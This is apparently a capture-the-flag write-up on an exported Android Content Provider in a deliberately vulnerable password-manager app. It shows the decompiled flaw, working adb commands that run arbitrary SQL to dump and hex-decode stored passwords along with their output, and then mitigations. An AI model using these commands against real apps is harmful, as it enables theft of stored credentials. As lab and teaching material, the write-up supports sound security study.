

*( بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ )*

:::caution
 #FreePalastine
:::

---

# Android Content Provider SQL Injection: When Database Security Meets App Architecture

In this challenge, we dive into a critical vulnerability in Android's Content Provider architecture where improper input validation leads to direct SQL injection attacks against the app's password database. Let's explore the technical details.

## Initial Discovery

When inspecting the `AndroidManifest.xml`, I discovered a Content Provider that's completely **exposed** without any protection:

```xml
<provider
    android:name="com.eightksec.droidcave.provider.PasswordContentProvider"
    android:exported="true"
    android:authorities="com.eightksec.droidcave.provider"
    android:grantUriPermissions="true"/>
<!-- NO PERMISSIONS DEFINED! -->
```

This immediately caught my attention because **exported Content Providers** without permissions are a classic Android security anti-pattern.

## The Vulnerable Content Provider

Analyzing the `PasswordContentProvider` code, I found a **critical Case 5** that handles SQL execution with zero input validation:

```kotlin
case 5:
    SupportSQLiteDatabase supportSQLiteDatabase13 = null;
    String lastPathSegment4 = uri.getLastPathSegment();
    if (lastPathSegment4 == null) {
        lastPathSegment4 = "";
    }
    try {
        SupportSQLiteDatabase supportSQLiteDatabase14 = this.database;
        if (supportSQLiteDatabase14 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("database");
        } else {
            supportSQLiteDatabase13 = supportSQLiteDatabase14;
        }
        return supportSQLiteDatabase13.query(lastPathSegment4);
    } catch (Exception e) {
        Log.e("PasswordProvider", "SQL Error: " + e.getMessage(), e);
        MatrixCursor matrixCursor5 = new MatrixCursor(new String[]{"error"});
        matrixCursor5.addRow(new String[]{"SQL Error: " + e.getMessage()});
        return matrixCursor5;
    }
```

## The Critical Flaw

The vulnerability is **straightforward** - the code takes user input from the URI's last path segment and **passes it directly** to the database query method:

1. **No input sanitization**
2. **No parameterized queries**
3. **Direct SQL execution**
4. **Full database access**

This is essentially a **backdoor** that allows anyone to execute arbitrary SQL commands against the database.

## Exploitation

The exploitation is surprisingly simple. Using ADB, we can directly query the Content Provider:

```bash
adb shell content query --uri "content://com.eightksec.droidcave.provider/execute_sql/SELECT%20%2A%20FROM%20passwords"
```

This command:

- Targets the Content Provider authority `com.eightksec.droidcave.provider`
- Uses the `/execute_sql/` path to trigger Case 5
- URL-encodes the SQL query `SELECT * FROM passwords`

> Pro Tip: Always encode spaces and special characters as terminals can deal with them differently.

## The BLOB Mystery

Initially, the passwords appeared as **BLOB (Data Bytes)** data instead of readable text. This happens because the app stores passwords as UTF-8 byte arrays:

```kotlin
// When disabling encryption (converting encrypted -> plaintext)
byte[] bytes = encryptionService.decrypt(blob).getBytes(Charsets.UTF_8);
contentValues.put("password", bytes);  // Still stored as bytes, not string

// When enabling encryption (converting plaintext -> encrypted) 
byte[] bArrEncrypt = encryptionService2.encrypt(new String(blob2, Charsets.UTF_8));
contentValues.put("password", bArrEncrypt);  // Encrypted bytes
```

## Solution: Hex Conversion

To extract readable passwords, I used SQL's `hex()` function:

```bash
adb shell content query --uri "content://com.eightksec.droidcave.provider/execute_sql/SELECT%20id,name,username,hex\(password\)%20as%20password_hex,isEncrypted%20FROM%20passwords"
```

This returns password data in **hexadecimal format**, which can then be decoded to plaintext.

```bash
Row: 0 id=1, name=muu, username=muu, password_hex=3132333435, isEncrypted=0
Row: 1 id=2, name=test for 8ksec poc, username=hi 8ksec, password_hex=386B7365636973676F6F6F6F64, isEncrypted=0
```

## POC

With a little help of the glorious, super friend, `claude`, I created a simple POC app which exploits the vulnerability, dumps the data, and directly decode the hex values to plain text again with a simple user interface. You can find it on my `github` (look to your left :"D).



## n00bies Questions on the way

### 1. Why did ADB Work But My POC App did not initially work?

My first Android POC failed because it **couldn't find the Content Provider**. This is due to **Android 11+ package visibility restrictions**. The solution was adding this to the POC app's manifest:

```xml
<queries>
    <provider android:authorities="com.eightksec.droidcave.provider" />
</queries>
```

**ADB has system-level privileges** and bypasses package visibility restrictions. Regular apps need explicit declaration in their manifest to "see" other apps' Content Providers, which was missing from my POC `androidmainfest.xml` file.

The `<queries>` element tells Android: **"My app needs to discover and communicate with this specific Content Provider"**

### 2. What is Authority ?

An `authority` is like a unique domain name for a ContentProvider. It's the identifier that tells Android "which specific ContentProvider am I trying to talk to?"

```kotlin
content://com.eightksec.droidcave.provider/passwords
         ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
            This is the AUTHORITY
```

### 3. What's the Difference Between Authority and Permission?

| **Authority** | **Permission** |
|---------------|----------------|
| **Discovery/Visibility** | **Access Control** |
| "Can I find this provider?" | "Am I allowed to use this provider?" |
| So I cannot even see the provider | I can see it, but can I use it? |

**Authority** = `com.eightksec.droidcave.provider` (like a domain name ex: google.com).

**Permission** = What you need to actually access it.

### 4. Why Do Passwords Show as BLOB?

The **`adb shell content query`** command doesn't automatically convert byte arrays to strings. Even when **`isEncrypted=0`**, passwords are stored as UTF-8 byte arrays, not VARCHAR/TEXT in the database schema.

### 5. How Did Enable/Disable Encryption Work?

The Content Provider has additional vulnerable endpoints:

- `/disable_encryption` - Converts encrypted passwords to plaintext bytes
- `/enable_encryption` - Converts plaintext bytes to encrypted bytes

Both are **unprotected** and accessible via the same exported provider.

## Mitigation Recommendations

A hacker only knows how to exploit, but a professional knows how to do both. To secure against this vulnerability:

### 1. Define Custom Permissions with Signature Protection

```xml
<!-- In AndroidManifest.xml -->
<permission
    android:name="com.eightksec.droidcave.permission.ADMIN_ACCESS"
    android:protectionLevel="signature"
    android:label="Password Manager Admin"
    android:description="Full admin access to password data" />

<permission
    android:name="com.eightksec.droidcave.permission.READ_PASSWORDS"
    android:protectionLevel="signature" 
    android:label="Read Passwords"
    android:description="Read access to password data" />
```

### 2. Secure the Content Provider Declaration

```xml
<provider
    android:name="com.eightksec.droidcave.provider.PasswordContentProvider"
    android:authorities="com.eightksec.droidcave.provider"
    android:exported="false"
    android:readPermission="com.eightksec.droidcave.permission.READ_PASSWORDS"
    android:writePermission="com.eightksec.droidcave.permission.ADMIN_ACCESS">
    
    <!-- Path-level permissions for granular control -->
    <path-permission
        android:path="/execute_sql"
        android:readPermission="com.eightksec.droidcave.permission.ADMIN_ACCESS"
        android:writePermission="com.eightksec.droidcave.permission.ADMIN_ACCESS" />
        
    <path-permission
        android:path="/disable_encryption"
        android:readPermission="com.eightksec.droidcave.permission.ADMIN_ACCESS" />
        
    <path-permission
        android:path="/enable_encryption"  
        android:readPermission="com.eightksec.droidcave.permission.ADMIN_ACCESS" />
</provider>
```

### 3. Remove Direct SQL Execution

**Never allow direct SQL execution** through user input. Instead:

- Use parameterized queries
- Implement proper input validation
- Create specific methods for each database operation

---

*For more information about Content Provider security best practices, visit the* [Android Security Documentation](https://developer.android.com/guide/topics/providers/content-provider-creating#ContentProviderPermissions)
